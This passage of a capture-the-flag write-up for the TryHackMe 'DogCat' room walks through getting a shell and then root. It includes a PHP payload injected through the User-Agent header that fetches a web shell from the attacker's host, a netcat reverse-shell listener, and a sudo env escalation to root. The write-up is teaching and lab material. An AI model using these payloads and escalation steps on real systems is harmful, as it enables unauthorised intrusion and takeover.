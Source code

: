 ```
root@cyb3rhoL1c:~/Desktop/TryHackMe/DogCat# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/DogCat/8.png)

and put this payload after user-agent:

`<?php file_put_contents('yourshell.php', file_get_contents('http://10.8.69.162/yourshell.php'))?>`

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/DogCat/10.png)

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/DogCat/11.png)

```
root@cyb3rhoL1c:~# nc -nvlp 1337
listening on [any] 1337 ...
connect to [10.8.69.162] from (UNKNOWN) [10.10.38.194] 58370
Linux 07a3b42783b3 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
 14:21:52 up  1:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$   

```
Let's check `sudo -l` 

```
$ sudo -l
Matching Defaults entries for www-data on 07a3b42783b3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 07a3b42783b3:
    (root) NOPASSWD: /usr/bin/env
$ 

```
Run `sudo env /bin/bash -i ` to get root shell and

You can find this command on this site [GTFObin](https://gtfobins.github.io/) 

```
$ sudo env /bin/bash -i
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@07a3b42783b3:/# 

```

type `ls` command and you will see flag3

```
root@07a3b42783b3:~# ls
ls
flag3.txt
root@07a3b42783b3:~# cat flag3.txt
cat flag3.txt
THM{D1ff3r3nt_**************_874112}
root@07a3b42783b3:~# 
```
